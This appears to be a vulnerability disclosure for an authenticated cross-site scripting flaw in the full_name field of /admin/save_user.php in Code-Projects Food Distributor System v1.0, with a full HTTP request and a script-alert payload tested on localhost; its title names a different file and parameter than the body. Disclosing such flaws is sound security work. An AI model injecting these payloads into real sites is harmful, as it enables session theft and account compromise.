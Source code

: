 Authenticated XSS  on username parameter in process_login.php of Code-Projects Food Distributor System 

```
/admin/save_user.php
```

Vendor Homepage:

```
https://code-projects.org/food-distributor-site-in-php-with-source-code/
```

Version: 

```
V1.0
```

Tested on: 

```
PHP
```

Affected Page:

```
/admin/save_user.php
```

The `full_name` parameter in the `save_user.php` file of the Code-Projects Food Distributor System is vulnerable to XSS Injection. 

Proof of vulnerability:
Insert the xss payload at the full_name parameter, and then view the attack effect in the user list

<img width="961" alt="image" src="https://github.com/user-attachments/assets/9ed8caea-cbc1-42ed-a142-e6874c67e432" />


Request:

```
POST /fooddis/admin/save_user.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 461
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysnxv5pTw6gGfA61c
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/fooddis/admin/add_user.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=b409c2d300348e8d3c7d564868ff9e2f
Connection: keep-alive

------WebKitFormBoundarysnxv5pTw6gGfA61c
Content-Disposition: form-data; name="full_name"

<script>alert('XSS')</script>
------WebKitFormBoundarysnxv5pTw6gGfA61c
Content-Disposition: form-data; name="username"

1
------WebKitFormBoundarysnxv5pTw6gGfA61c
Content-Disposition: form-data; name="password"

1
------WebKitFormBoundarysnxv5pTw6gGfA61c
Content-Disposition: form-data; name="position"

Admin
------WebKitFormBoundarysnxv5pTw6gGfA61c--
```

payload

```
<script>alert('XSS')</script>
```


